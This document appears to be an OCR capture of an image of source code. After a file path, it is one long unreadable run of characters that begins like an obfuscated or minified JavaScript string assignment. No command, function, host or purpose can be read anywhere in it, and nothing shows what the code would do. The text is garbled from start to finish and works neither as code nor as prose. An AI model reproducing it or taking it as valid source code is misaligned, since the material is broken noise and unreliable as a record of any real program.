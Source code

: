 o=t(e,"}:!9l_7,IPe6Z/SK6_,leSSI!9,!P7/vweI7/K:6_/P9/IoKlKI!6!/Z9l_/elS9:el_PR6/-f!K,Kl:I_6lSS!I6_rI9K,9eKZ,!977e7/::IS:!,_lISZI7:P7Z_5I_IP6Z!<Z9_Ile/SI:!K_9_7Ie!/Z,eZ!S6!67,PSS6e/S7!?_ePlZK:,l!,Z679:PK/I^/:eI,Z5Ke!K7I,,//:l_:IS_,6eZeol9SSU!77uP7PeZP*9I_6KKPSe7IPKZZ:hl/PwIuSK9_7/7P/_!:_6I,/ Z_DK,9eI66S/!,7:Pe/IX/l_Il6KK!K/9e,*eeSl,H6/K_l#<,le,e6lSS,ZZ,:lle_!6KKI9!7,e#7/SlSk:e_lSK!e7_e^/6:7_:IZZ,X!9/,I69SS!P7lPK/e:__%I6Z7q:9Z,,6!69SS!P7lPK/e:__(I6Z7*:9Z,,6!S/!I79PS/P:llKIeZ_1{96,7I7Z:KZ9,,!e/SI!9_SPPPe/l)SlII!6ZK77Peee_KS:I_!IZ!S,leSSlSI:,_:/9x/l,9I67S/:e_SP6/SZS9/I9666,!97KeP/_:S:9_/Z:K7oPB,_9,e6lSS,SZ64SleI_e6KOt,77e!S::e!/,6Z!SK!K7,eS,,66Se!l_SSll:7Ke,SZOe7mIKS:2,lS:,_SIeZlKSI6/_:S__IZZ7K/9Z7KIISS:,_/IK7_ey/I:!lZK_99K6967SeIS!7,661P8/,9e!//69K:!77<PelI7KeeSS!:K,lx7eel/S7_Z:g:9P7_,ZSP!!_ZP:ZeZ,:l,P66SZ6PKP!Z77eflVI76/K_:ll9,I,:6eSl:S_I/l!/7Pe6S:!7_/P//wBp:P,K67K99G!699,_e7SJ:eP,Ke!P,_eKZl::_,IP_Ke!/!#Zl7ZP!,__P_Z/SS9/,I6_K7Z_xZ9I,!eZl*7PZIKI99IdIlS::S_:ehZ/./le:_lZI,ZIKe9l7SK:_XIKZeK:9I7,e9,P6ISZ!77js9l!I:e/Kl9YK,9,7eel/S_6Z:KS!6l,eK//eKSZ!!_ZP7:Z7KeeK!6PKP!Z77eg9/I96ZK7!,_Kee,:eSSl:S_I/l9_,lel,66ISS!I7!2P9,Il6!Il6SKI,eK7_7,/!,P7ISZI{!9Z,76{Se_QPSPP//#Zl7I8T:_Pe!e6ael_I!6lKZ!P7Z9I,!eZS7!t_ePl*_lIl9I_67K+!e6PS,!l,6eSKI!:7Ze/7KeKS!:Z_7S{977_6,//!l_K!77tPe/l&SlII!Kd979:7Kel/S:IPSS/!I7_e7,_6lSI!!_ZK/9/766IS:!TK99Z77e%/e7PZ:S/9ll_elSw:K_I,:6/?ll!7Ke9/K6_KZ!I7!PZ:Z,P6ISIfl7:el/K:e!9I!6/Ke!ZC977,76kSeIZ/!^Zl!l7,_eK9:76e_P7:ll6,I6ZKP9Z!ZP6S::P:_I:Z/f,99,Z,:66:K_l7,PP/9z/l,,/67KI!S7ZPKePS_:Z_7Pu9I7P6_,I6!SZ!77jPe7lI*III9Z!K79J7eKl9KIe6,Ke9e^:9/,leSSI7lZ6^S/)Rell,S6IK!!Z_7/K/6:SlSIIZ!7SP,/S&S_9I6Z6K,9:7el:I:6lSS!I/_#:lII769S,!9KP9I7Ze7SW7I6_xl(e79eS,,6,Se!l_SSZ9,Il6eZ!!P7Z!K,:e!/Z:7e9S/!_7eP/Z7!__7I__eS!9KS:Z:_P:eeI7P7_e9/I:!lZK7!:79e7S:ePS7:Z_7P^2K,ee,Sl69S/!77iPe-!QK7:I!6ZK7,//P:9lZ766,SK!__9eSS7:,_7IPZK/S9P7SeIS9!799eC/e:!/6:/lSIIZ!_rP6SI:S9Q,K6eK,9IN,l_,e6lSS,:ZKK/9/,_l6P96SKI9!eS:__!,S6PE.:67667/6m=_9PZZ9rl/9:7l7IO6e_eep/,JK!6,Z67K/!P,!9P,7eZS7!%ZSK/967/l!,Z67Kw!e7lPS:7_!l/ISZGKe9lZ9K:!_I6ZIKS!K,79K,/6!SZ!769879/,:e/I9Z!K79M7e:79KI767K699):l7,leSSI,lZ_K/9I,SI,S/!777PS/_FZ/6:/lSIIZ!lKPPS!?KlPIZPKx,9_w,l6,e6lSS,:ZKK/9/,_IZKP9!7Ze:/eePS::67>ISZIv!IKS9:K_PPIZ7/el,Ia6eSK!IK_9,7Ie!/Z_eZ!S6!67_PP/l:Il6!{_ePlZS(Il!,Z6S9r!67KPS/I:!PKSS!__KeIZ!:,lPI9Z!K_Z6.69S,I6!_IIKZ!zZ9_INZ:I9Z8K79%7eK:l/Ie6,I/ZK^89e,l::_yI9ZSSe9:7Z6*S96PKS!Z77em:/,/Z?S6!S7:,IS_:S_II/Z7P9/:#7lt,e#P9!P:ZKZS/,:7leIl6S9ee,SF:elKII__PIZIf!9ZZI!__I,,Z9helI,_ePS_66KI!S7Ie!!P,66SKKZ_p,9I,!eZlZP!ZPq:!:76e9SI:6K:9l7lPS/I_P6:Ke:9_Ke7Sl::l_I:_,PSZezl9SZZ:,7lPe6I/6l?,,eKKN!P_6PS/Se_S7:I_!IZ:e7_6!SI2:_:PZZ:P,/,uell,SO6_6IS/!wPlI,6lKI/Z!KZ9767:Zl_I66/P9/l57lL,eK6_9PZeKi6l6I9eKI_SIKI9!7Z3S_lISZlZIK,9:69S/!,:IP7Z/Ke9S,66SeS:/79P6P,v9lKIP6_KSK99/e:/7SP:6__IKZILr96,I6lS7!_!67ePS/I:!IKK_!Z7Pe7e:ePKl:Z_7Pd:/7,6*S,:S_I7IZ:^Z!I,76:S_!,7lP_//:,/Kl!_!IZZ77IeSSI:S!!_:I6(/l,I:,!Kw!,_lPI/_:I^I,,6/K_K:_/ePS92K_Il/P,K692l9,_eKS6!l_ZP_/_m7l9I9I_Z!KI9!7Zo/l:I,6PIK/!d!9Z,7K,_KI/6:K/llI!eKS9:KK_9l7Ie!/Z7P6IS6!I7/eK,96lS7!5_eSl9/,6e6KB:K_KPI7_Z_/I:!lZ/e!I79e,ISHSl6II666Ql:7_6:PI!!_SP_/lKK9,I!e/S7/Z7/PP/SEZKS7_Z:K69l_9PK/,ZS9S___/e:/DwellZ:!:7lIK/!q_:/I%6,S6!/K/lW,ceeSl,pZ,s,9e7eI7SZ:__6I/79eU/7:Yle/::K7:eC7/eKSC:e_lST9,7leIS_!I9:PPZ,PP/S.Zl7I)::__P,/ZSIl6IIP9K!!/7ePZ,969S7!2_eS:9/7Z6,SI:679!67ZPS/I:!P!SK!S_SIIS,:Il,:/_ePuZe^lI9S7!,_P!,7lPe/l)SP6S697_6917eel/S:I_!IZ/el=96PSeSSI!!ZlWell,e,Se/S,7Pe9//ZSlZI96tKl9:,l7l/9:P_:l/6Pm_9K766lePK9_,IZPK/:56l_,S67K:!K7PPK/,Ss:e_lISZId!9Z6KKYS6!I_SPI/!_ee,S/:KKl!S7Ie!/Z:7_BIeZlKK9S,!eZS779Z9q79:,le,,Z67K)!e7lPS!II9IZI7PP,9S!7ZP7/T/eP_P:/7Fl9S,I8779I6Z_OI!,,96eKI!__PP_76e6/S:I_!/#!6,9eSS7:/7:!!_ZP7/g^ell,SS76!!Z77eA/e:llSIIS79Z97,#eeSl:S_IP!eZl_l:Il6lSS!Ie_K/llI7e6K,::7:eZ/:6:SA:e_lP!ZIQ!9Z,,69Se!l_Sg6l,7Sl,I_6eKl!S/l::_9,6Z!I6ZIKS9I,!:el6PIZSPlZSHIl!,Z67K8:ee9PS/I:!lZI,/lKe9l7S6e,S:Z_,PaZ/Tl9S,I6!_:!,7!Pe/lWSlII!6ZeK9z7/elS::I_!IZZee79e,leSK,!!_/P7Kh7Pl_Il6IK,!Z7,e*SZIPlSP>Z!?m97,FeeSl9u_IP6ZZ;7lX,e6lSS!/7!e!/7:PleI76S:I967ZeZSN!t_lP4ZIV!ll,767Se!7_SPe/!!Zl/IHZ:Kl!S7Iel/Z:7_PIeZ6KS9e,!eSS7!767Pl/lmI_:,Z6,KC9:7le!,S:!lZI7ZKKe9_7SeI!7:/_6PyZZ4l9S,I6In_!77:Pe/IbSlPI!6SK79l:#el/S:I_7IZZ,?b9e/weKSP!!_ZP7/#zellZ!6PK9!Z7Iev/e:llSe9Z!KZ97,:eeSl:S7SP!ZZu7l:I!6lSS!I6!U6lP,P6SS/!/7799,:e7Sz:eeP/!9:7K7S,,6PSe!l_SKSll,669/9:/__PeZ/e9SI:7_NIe%_7(e6S::I_6Pl6KS,9,I!e,,/66Ky!e7l::lI,9Z9KlZ:Qo9l7SeI9Z7_ZlKl!K,Z9S,I6!SZ!77{Pe9/lSlII!6ZK79M7eelZS_,_9P7Z7uQ9e/e!c_,IKe6KZ97,/ePK!6PKI!Z77e>!/,ZeKSZ9:,99,I:eeSl:Se:KK!/7/e_ZS!7lKP7/_GZ9,I!eKK!!:,:99,_e7S3:eeIR_!/7,ee6K:S_=P9_Ke9/!.Zl7ZP!,__P_Z/S_l6I!6KKZK,KS9I,!eZS7!=_e,l)/{PlI,Z67K#7//7g99PI76:I,Z:Ke9l7S84S!:Z_7PmZeRl9S,I6!S/!P7EPe/l,Ze/KP6/KZ9&7eel!S,PZlK:9l,l96,IeSSI!!eZ)!9:I9ll,S6IK!!Z77e5/e_llKIZZ!KZ97Z9:9_SI9_PP!ZZp7l9,e6lSS!I7!PZ/7: leIlPS9,99,9e7Sn:ePIK996,7eSS_!PS6!I_SPI/!I9e,SP!SKl!S7Ie!/Z:/_dIeZl: